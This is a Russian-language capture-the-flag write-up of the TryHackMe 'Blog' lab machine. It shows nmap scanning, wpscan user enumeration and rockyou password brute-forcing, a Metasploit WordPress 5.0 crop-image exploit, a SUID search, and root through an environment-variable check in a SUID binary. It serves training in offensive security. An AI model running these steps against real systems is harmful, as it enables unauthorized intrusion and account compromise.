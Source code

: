 # Blog

:white_check_mark:  [*Wpscan user enum**](#wpscan_user)

:white_check_mark: [**Wpscan pass brute**](#wpscan_pass)

:white_check_mark: [**Wordpress 5.0 Crop-image**](#crop_image)

:white_check_mark: [**Getenv(privesc)**](#getenv)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV blog.thm
```

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 57:8a:da:90:ba:ed:3a:47:0c:05:a3:f7:a8:0a:8d:78 (RSA)
|   256 c2:64:ef:ab:b1:9a:1c:87:58:7c:4b:d5:0f:20:46:26 (ECDSA)
|_  256 5a:f2:62:92:11:8e:ad:8a:9b:23:82:2d:ad:53:bc:16 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Billy Joel&#039;s IT Blog &#8211; The IT blog
|_http-generator: WordPress 5.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2022-04-26T17:11:44
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: blog
|   NetBIOS computer name: BLOG\x00
|   Domain name: \x00
|   FQDN: blog
|_  System time: 2022-04-26T17:11:44+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BLOG, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```

Главная страница сайта:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/1.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/2.png)

Видим что сайт работает на wordpress версии 5.0

Проверим директорию /wp-admin/

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/3.png)

<a name="wpscan_user"></a>

Соберем информацию использую **wpscan**:
```
wpscan --url http://blog.thm --enumerate u
```

Получаем имена пользователей

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/4.png)

<a name="wpscan_pass"></a>

Попробуем сбрутить пароль для пользователя kwheel:
```
wpscan --url blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kweel
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/5.png)

<a name="crop_image"></a>

Посмотрим существующие эксплоиты для wordpress 5.0
```
searchsploit wordpress 5.0
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/6.png)

Видим эксплоит, который можно запустить через metasploit. Запускаем metasploit комадой **msfconsole**.

Найдем по названию нужный нам эксплоит и выберем его для использования. Просмотрим, какие параметры нужны эксплоиту.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/7.png)

Выставм нужные параметры.
```
set PASSWORD <password>
set USERNAME <username>
set RHOSTS <ip_of_victim_machine>
set LHOST <ip_of_our_machine>
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/8.png)

Запускаем эксплоит и получаем доступ к машине:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/9.png)

Находим первый флаг в директории **/home/bjoel**, но увы, нам говорят, что он находится в другом месте. Также мы видим другой файл Billy_Joel_Termination_May20-2020.pdf. Скачаем его командой **download** Billy_Joel_Termination_May20-2020.pdf.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/10.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/11.png)

Попробуем командой **find** найти первый флаг:
```
find / -type f -name user.txt 2>/dev/null
```

Файл находится в директории /media/usb, к которой мы не имеем доступа.

Попробуем найти файлы с битом SUID.
```
find / -perm -u=s 2>/dev/null
```

<a name="getenv"></a>

Находим странный файл /usr/sbin/checker. Это скомпилированный файл, поэтому качаем его на свою машину и попробуем зареверсить. Сделав это, получаем следующий код.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Blog/12.png)

Мы видим что некая переменная ищет переменную окружения admin и если ее нет, то говорит "Not an Admin". Добавим переменную окружения admin командой:
```
export admin=123
```
Затем запустим программу и получим рута, после чего, мы сможем получить оба флага.
